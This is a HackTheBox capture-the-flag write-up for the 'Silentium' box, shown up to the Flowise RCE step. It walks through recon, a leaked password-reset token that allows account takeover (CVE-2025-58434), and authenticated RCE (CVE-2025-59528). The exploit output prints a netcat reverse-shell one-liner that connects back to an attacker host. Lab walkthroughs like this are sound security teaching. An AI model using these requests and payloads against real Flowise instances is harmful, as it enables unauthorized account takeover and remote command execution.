







Silentium is an Easy rated Linux box. I started with Nmap Scan which resulted in 2 open ports (`22`,`80`) . On visiting port 80 on the web, there are few usernames (notably `ben`).
The directory fuzzing resulted empty then I started Subdomain fuzz which found `staging`
subdomain. Visiting the page has  a login page with password reset functionality. Upon clicking the forgot password for a valid email that I have, and inspecting the results in the burp I found leaked the auth token to reset the password. I used the token to reset the password for the user. After logon I found it is  Flowise  version `3.0.5`, upon quick research I found  `CVE-2025-59528` which gives me RCE to a shell as root inside the container. There I found valid credentials to user `ben` which gave me `SSH` to user ben.
Looking at the Active connections that this machine have, port `3001` has Gogs (although it didn't expose the version) I searched for Public CVEs and I found `CVE-2024-55947` which  gave me a shell as root (as Gogs is running as Root).

# Initial Recon

## Nmap Scan

Nmap scan with `-sC` for default script scan `-sV` for service version `-oA` flag for output in all formats (.nmap, .gnmap, .xml) and finally `-v` to print the open ports as the scan discovers.

<div class="scroll-code" style="--code-height:500px">

```zsh  
0xz1nn ✦ Documents/HTB/silentium
❯ nmap -sC -sV -Pn -oA nmap $target  -v
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-21 03:45 -0400
NSE: Loaded 158 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 03:45
Completed Parallel DNS resolution of 1 host. at 03:45, 0.50s elapsed
Initiating SYN Stealth Scan at 03:45
Scanning 10.129.95.152 [1000 ports]
Discovered open port 22/tcp on 10.129.95.152
Discovered open port 80/tcp on 10.129.95.152
Completed SYN Stealth Scan at 03:45, 4.03s elapsed (1000 total ports)
Initiating Service scan at 03:45
Scanning 2 services on 10.129.95.152
Completed Service scan at 03:45, 6.56s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.95.152.
Initiating NSE at 03:45
Completed NSE at 03:45, 6.04s elapsed
Initiating NSE at 03:45
Completed NSE at 03:45, 0.90s elapsed
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Nmap scan report for 10.129.95.152
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://silentium.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Initiating NSE at 03:45
Completed NSE at 03:45, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 18.45 seconds
           Raw packets sent: 1178 (51.832KB) | Rcvd: 1045 (41.808KB)

```

</div>

## Port 80 (website)

On port 80 there is a website,



with nothing interesting  other than few usernames.



## Directory Fuzz

I was eager to see the directories, server exposed. I could have simply tried with `gobuster` or `ffuf` but `feroxbuster` is more robust , which resulted `found:0`

```zsh
0xz1nn ✦ Documents/HTB/silentium
❯ feroxbuster -u http://$target                                         
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.95.152/
 🚩  In-Scope Url          │ 10.129.95.152
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/feroxbuster/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        7l       12w      178c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
[####################] - 2m     30000/30000   0s      found:0       errors:0      
[####################] - 2m     30000/30000   211/s   http://10.129.95.152/
```

What could be other potential vector to look at, at this point other subdomains? (I already did full port scan, no new ports were discovered!)

## Vhost Discovery

I used `ffuf` to fuzz the `Host` header  (`-H "Host: FUZZ.silentium.htb"`) which successfully discovered hidden Virtual Host `staging`.

```zsh
0xz1nn ✦ Documents/HTB/silentium
❯ ffuf -u http://$target -H "Host: FUZZ.silentium.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac -fc 302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.95.152
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.silentium.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 302
________________________________________________

staging                 [Status: 200, Size: 3142, Words: 789, Lines: 70, Duration: 354ms]
#www                    [Status: 400, Size: 166, Words: 6, Lines: 8, Duration: 220ms]
#mail                   [Status: 400, Size: 166, Words: 6, Lines: 8, Duration: 223ms]
:: Progress: [19966/19966] :: Job [1/1] :: 117 req/sec :: Duration: [0:01:57] :: Errors: 0 ::
```

## Vhost login page

Opening in the discovered Vhost has a login page.



(Do we have any valid Credentials? Not yet!) But there is a `Forgot password`, worth checking the functionality. I clicked it and entered random mail,



then I remembered the names which were on the main webpage. I tried the user `ben` with the obvious format `ben@silentium.htb` and sent the reset request. The response confirmed that the mail id is valid.



## Token leak

Inspecting the request using the Burp Proxy, the server leaks the `temp token` that I can submit by clicking `Change your password here` link which potentially leads to Account Takeover.



I can also make the request with `curl` to get the t`emp token` directly.

```zsh wrap=false
0xz1nn ✦ Documents/HTB/silentium
❯ curl -i -X POST 'http://staging.silentium.htb/api/v1/account/forgot-password' \                                                                                                              
  -H 'Content-Type: application/json' \
  -d '{"user":{"email":"ben@silentium.htb"}}'
HTTP/1.1 201 Created
Server: nginx/1.24.0 (Ubuntu)
Date: Fri, 21 Aug 2026 08:25:44 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 579
Connection: keep-alive
Vary: Origin
Access-Control-Allow-Credentials: true
ETag: W/"243-6c0aD4AQJA79PwonBplGC8CZ48Q"

{"user":{"id":"e26c9d6c-678c-4c10-9e36-01813e8fea73","name":"admin","email":"ben@silentium.htb","credential":"$2a$05$6o1ngPjXiRj.EbTK33PhyuzNBn2CLo8.b0lyys3Uht9Bfuos2pWhG","tempToken":"CN4S5IMReOtgW1I1kQqVL5rF5fqUvQAKkb9LALlvsX29BUJFvUcywHUgrHJNOp7b","tokenExpiry":"2026-08-21T08:40:44.282Z","status":"active","createdDate":"2026-01-29T20:14:57.000Z","updatedDate":"2026-08-21T08:25:44.000Z","createdBy":"e26c9d6c-678c-4c10-9e36-01813e8fea73","updatedBy":"e26c9d6c-678c-4c10-9e36-01813e8fea73"},"organization":{},"organizationUser":{},"workspace":{},"workspaceUser":{},"role":{}}  
```

## Account Takeover

I submitted the `temp token` with new password `Userpass1!`



I logged on to the site, which is hosting **Flowise** version  `3.0.5` which has **Authentication Bypass / Account Takeover** (CVE-2025-58434)  which we have already exploited  and also a **Remote Code Execution** (CVE-2025-59528). I found this [cool exploit](https://github.com/kartik2005221/CVE-2025-58434-AND-59528-POC)to chain both the vulnerabilities (However, I used only for remote code execution).

# Shell

I cloned the repository of the exploit then I used UV to gracefully add the requirements and run.

```zsh
0xz1nn ✦ ~/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC      
❯ uv init                                                                   
Initialized project `cve-2025-58434-and-59528-poc`  

0xz1nn ✦ ~/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC
❯ uv add -r requirements.txt 

Using CPython 3.13.12 interpreter at: /usr/bin/python3.13                                     
Creating virtual environment at: .venv
Resolved 6 packages in 511ms
      Built cve-2025-58434-and-59528-poc @ file:///home/kali/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC                                                                           

Prepared 6 packages in 348ms
Installed 6 packages in 4ms
 + certifi==2026.7.22
 + charset-normalizer==3.5.1
 + cve-2025-58434-and-59528-poc==0.1.0 (from file:///home/kali/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC)                                                                        
 + idna==3.19
 + requests==2.34.2
 + urllib3==2.7.0             
```

I ran the script with  `rce` module (You could also use the `chain` module to fully exploit from the account takeover to rce with sinlge command).

```bash wrap=false
0xz1nn ✦ ~/Documents/HTB/silentium/CVE-2025-58434-AND-59528-POC
❯ uv run main.py --module rce -u http://staging.silentium.htb -e ben@silentium.htb -P 'Userpass1!'  --lhost 10.10.14.201 --lport 443


  ███████╗██╗      ██████╗ ██╗    ██╗██╗███████╗███████╗
  ██╔════╝██║     ██╔═══██╗██║    ██║██║██╔════╝██╔════╝
  █████╗  ██║     ██║   ██║██║ █╗ ██║██║███████╗█████╗
  ██╔══╝  ██║     ██║   ██║██║███╗██║██║╚════██║██╔══╝
  ██║     ███████╗╚██████╔╝╚███╔███╔╝██║███████║███████╗
  ╚═╝     ╚══════╝ ╚═════╝  ╚══╝╚══╝ ╚═╝╚══════╝╚══════╝

  ════════════════════════════════════════════════════════════════════
  CVE-2025-58434 │ Account Takeover via Token Disclosure │ CVSS 9.8 Critical
  CVE-2025-59528 │ Authenticated RCE via CustomMCP Node  │ CVSS Critical    
  ════════════════════════════════════════════════════════════════════
    ⚠  FOR EDUCATIONAL / AUTHORIZED SECURITY TESTING ONLY  ⚠
  ════════════════════════════════════════════════════════════════════


  [Step 1] [CVE-2025-59528] Executing RCE via CustomMCP ...
  [*] No cookies provided — attempting login first ...
  [*] Endpoint : http://staging.silentium.htb/api/v1/auth/login
  [*] Email    : ben@silentium.htb
  [*] HTTP 200

  ────────────────────────────────────────────────────────────────────
    EXTRACTED SESSION COOKIES
  ────────────────────────────────────────────────────────────────────
  token          : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImUyNmM5ZDZjLTY3OGMtNGMxMC0...
  refreshToken   : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImUyNmM5ZDZjLTY3OGMtNGMxMC0...
  connect_sid    : s%3AIBZYZJPZbYRFCjBxxp8rnqh5Rljwy-Ds.TfNLEITNuaR8EKXOM%2FeMEITI0NdVI5H88...
  ────────────────────────────────────────────────────────────────────
  [*] Endpoint : http://staging.silentium.htb/api/v1/node-load-method/customMCP
  [*] Command  : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.201 443 >/tmp/f
  [*] Payload  : ({x:(function(){const cp=process.mainModule.require("child_process");const b64="cm0gL3Rt...

  ────────────────────────────────────────────────────────────────────
    RCE RESULT
  ────────────────────────────────────────────────────────────────────
  Mode    : Reverse Shell
  Command : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.201 443 >/tmp/f
  LHOST   : 10.10.14.201
  LPORT   : 443

  [+] Reverse shell payload fired!
  [!] Waiting for connection on 10.10.14.201:443 ...
  [!] Make sure your listener is running:  nc -lvnp 443
  ────────────────────────────────────────────────────────────────────                            
```
